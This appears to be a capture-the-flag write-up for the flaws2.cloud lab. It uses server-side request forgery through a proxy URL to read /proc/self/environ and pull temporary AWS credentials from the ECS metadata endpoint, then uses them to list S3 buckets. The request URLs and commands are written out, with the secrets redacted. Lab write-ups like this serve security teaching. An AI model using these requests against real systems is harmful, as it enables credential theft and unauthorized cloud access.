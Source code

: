 Use http://container.target.flaws2.cloud/proxy/file:///proc/self/environ and use the GUID found there to access something like http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/468f6417-4361-4690-894e-3d03a0394609 Use those creds to run aws s3 ls to list the buckets in the account.

Get the env var: 

`http://container.target.flaws2.cloud/proxy/file:///proc/self/environ`

```
HOSTNAME=ip-172-31-55-65.ec2.internalHOME=/rootAWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/f536c20a-9a31-4f65-8f4e-0a201a72f7b0AWS_EXECUTION_ENV=AWS_ECS_FARGATEAWS_DEFAULT_REGION=us-east-1ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/efd02f49-194c-477b-9fa5-2b408352ac1eECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/efd02f49-194c-477b-9fa5-2b408352ac1ePATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binAWS_REGION=us-east-1PWD=/
```

"AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" GUID is `f536c20a-9a31-4f65-8f4e-0a201a72f7b0`

Get creds from ECS container: 

`http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/f536c20a-9a31-4f65-8f4e-0a201a72f7b0`

```
{"RoleArn":"arn:aws:iam::653711331788:role/level3","AccessKeyId":"(redacted)","SecretAccessKey":"(redacted)","Token":"(redacted)","Expiration":"2021-11-01T23:50:03Z"}
```

Add the ECS keys and token to our local AWS credentials (~/.aws/credentials): 
```
[level3]
aws_access_key_id = (redacted)
aws_secret_access_key = (redacted)
aws_session_token = (redacted)
```

Test profile: 

`aws sts get-caller-identity --profile level3`

```
{
    "UserId": "AROAJQMBDNUMIKLZKMF64:d66bbad377774eb8972ef0158bab4912",
    "Account": "653711331788",
    "Arn": "arn:aws:sts::653711331788:assumed-role/level3/d66bbad377774eb8972ef0158bab4912"
}
```

List S3 buckets in account: 

`aws s3 ls --profile level3`

```
2018-11-20 14:50:08 flaws2.cloud
2018-11-20 13:45:26 level1.flaws2.cloud
2018-11-20 20:41:16 level2-g9785tw8478k4awxtbox9kk3c5ka8iiz.flaws2.cloud 
2018-11-26 14:47:22 level3-oc6ou6dnkw8sszwvdrraxc5t5udrsw3s.flaws2.cloud 
2018-11-27 15:37:27 the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud
```
